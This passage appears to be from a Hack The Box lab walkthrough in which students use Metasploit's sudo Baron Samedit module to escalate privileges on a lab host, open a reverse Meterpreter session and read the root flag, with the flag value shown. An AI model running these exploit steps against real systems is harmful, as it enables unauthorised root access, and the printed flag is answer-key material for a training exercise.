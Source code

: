 ```
msf6 exploit(linux/local/sudo_baron_samedit) > set LHOST tun0

LHOST => tun0
msf6 exploit(linux/local/sudo_baron_samedit) > set LPORT 9001

LPORT => 9001
msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 1

SESSION => 1
```

After setting the options, students then need to launch the privilege escalation exploit module on the target using the `exploit` command:

Code: shell

```shell
exploit
```

```
msf6 exploit(linux/local/sudo_baron_samedit) > exploit

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: x86
[*] Started reverse TCP handler on 10.10.14.43:9001 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/mjtsEUpe.py' (763 bytes) ...
[*] Writing '/tmp/libnss_/13Ra1W .so.2' (548 bytes) ...
[*] Sending stage (3012548 bytes) to 10.129.203.52
[+] Deleted /tmp/mjtsEUpe.py
[+] Deleted /tmp/libnss_/13Ra1W .so.2
[+] Deleted /tmp/libnss_
[*] Meterpreter session 2 opened (10.10.14.43:9001 -> 10.129.203.52:48532) at 2022-06-14 02:27:59 +0100

meterpreter >
```

Once students attain a `meterpreter` session, they can either spawn a root shell or read the contents of the flag under the "root" directory directly:

Code: shell

```shell
shell
cat /root/flag.txt
```

```
meterpreter > shell

Process 3808 created.
Channel 1 created.
cat /root/flag.txt

HTB{5e55ion5_4r3_sw33t}
```

